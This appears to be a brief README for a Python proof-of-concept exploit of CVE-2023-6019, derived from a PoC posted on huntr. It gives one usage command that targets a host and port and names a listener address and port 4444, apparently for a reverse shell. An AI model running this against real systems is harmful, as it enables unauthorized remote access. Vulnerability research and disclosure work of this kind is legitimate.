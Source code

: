 <h1>Python POC Derived from <a href="https://huntr.com/bounties/d0290f3c-b302-4161-89f2-c13bb28b4cfe">Authors POC</a></h1>

<h5>Usage</h5>
<code>python3 CVE-2023-6019.py -t 192.168.191.37 -p 9000 -l 192.168.45.xxx -lp 4444</code>
